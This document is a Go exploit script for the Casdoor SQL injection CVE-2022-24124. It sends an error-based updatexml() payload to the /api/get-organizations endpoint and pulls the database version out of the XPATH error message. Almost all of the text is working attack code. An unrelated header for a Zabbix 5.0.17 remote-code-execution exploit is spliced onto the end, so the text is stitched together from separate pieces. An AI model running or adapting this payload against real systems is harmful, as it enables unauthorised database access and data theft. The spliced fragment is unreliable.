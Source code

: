 import (
    "flag"
    "fmt"
    "html"
    "io/ioutil"
    "net/http"
    "os"
    "regexp"
    "strings"
)

func main() {
    var url string
    flag.StringVar(&url, "u", "", "Casdoor URL (ex. http://127.0.0.1:8080)")
    flag.Parse()

    banner := `
-=Casdoor SQL Injection (CVE-2022-24124)=-
- by Mayank Deshmukh (ColdFusionX)

`
    fmt.Printf(banner)
    fmt.Println("[*] Dumping Database Version")
    response, err := http.Get(url + "/api/get-organizations?p=123&pageSize=123&value=cfx&sortField=&sortOrder=&field=updatexml(null,version(),null)")

    if err != nil {
        panic(err)
    }

    defer response.Body.Close()

    databytes, err := ioutil.ReadAll(response.Body)

    if err != nil {
        panic(err)
    }

    content := string(databytes)

    re := regexp.MustCompile("(?i)(XPATH syntax error.*&#39)")

    result := re.FindAllString(content, -1)
    
    sqliop := fmt.Sprint(result)
    replacer := strings.NewReplacer("[", "", "]", "", "&#39", "", ";", "")
    
    finalop := replacer.Replace(sqliop)
    fmt.Println(html.UnescapeString(finalop))


    if result == nil {
        fmt.Printf("Application not vulnerable\n")
        os.Exit(1)
    }

}
# Exploit Title: Zabbix 5.0.17 - Remote Code Execution (RCE) (Authenticated)
# Date: 9/3/2022
# Exploit Author: Hussien Misbah
# Vendor Homepage: https://www.zabbix.com/